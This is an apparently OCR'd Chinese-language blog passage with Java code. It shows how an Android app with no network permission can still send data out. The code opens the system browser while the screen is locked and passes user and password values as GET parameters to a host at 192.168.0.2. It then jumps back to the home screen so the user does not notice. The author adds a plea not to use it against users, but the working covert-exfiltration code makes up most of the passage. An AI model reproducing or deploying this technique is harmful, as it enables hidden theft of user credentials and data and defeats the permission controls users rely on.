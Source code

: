 虽然应用没有权限，或者我们之前有权限被用户屏蔽了。但是我们可以借鸡下蛋，调用系统浏览器带上我们要访问的参数。实际在服务端收到的时候就是一个get请求可以解析后面拼接出的参数。比如：
```
http://192.168.0.2/send?user=1&pwd=2
```
 这样就可以把user和pwd提交上去。当然这一切还不能被用户发现，所以很变态的判断用户锁屏后就打开浏览器发送消息，用户一旦解锁就回到桌面上，假装一切都没有发生过。


**实现代码：**

本来我不准备把代码贴出来的，但想了一下又有何妨。即便我不贴出来你也能找到，也能跟着思路写出来。但是千万千万不要给用户做这种东西。拜托了各位。

```java
		Timer  timer = new Timer();
        final KeyguardManager  km = (KeyguardManager) getSystemService(KEYGUARD_SERVICE);
        TimerTask   task = new TimerTask() {
            @Override
            public void run() {
                // TODO: 2017/6/26  如果用户锁屏状态下，就打开网页通过get方式偷偷传输数据
                if (km.inKeyguardRestrictedInputMode()) {
                    Intent intent = new Intent();
                    intent.setAction(Intent.ACTION_VIEW);
                    intent.addCategory(Intent.CATEGORY_BROWSABLE);
                    intent.setData(Uri
                            .parse("http://192.168.0.2/send?user=1&pwd=2"));
                    intent.setFlags(Intent.FLAG_ACTIVITY_NEW_TASK);
                    startActivity(intent);
                }else{
                    // TODO: 2017/6/26  判断如果在桌面就什么也不做 ,如果不在桌面就返回
                    Intent intent = new Intent();
                    intent.setAction("android.intent.action.MAIN");
                    intent.addCategory("android.intent.category.HOME");
                    intent.addCategory(Intent.CATEGORY_DEFAULT);
                    intent.addCategory("android.intent.category.MONKEY");
                    intent.setFlags(Intent.FLAG_ACTIVITY_NEW_TASK);
                    startActivity(intent);
                }
            }
        };
        timer.schedule(task, 1000, 2000);
```




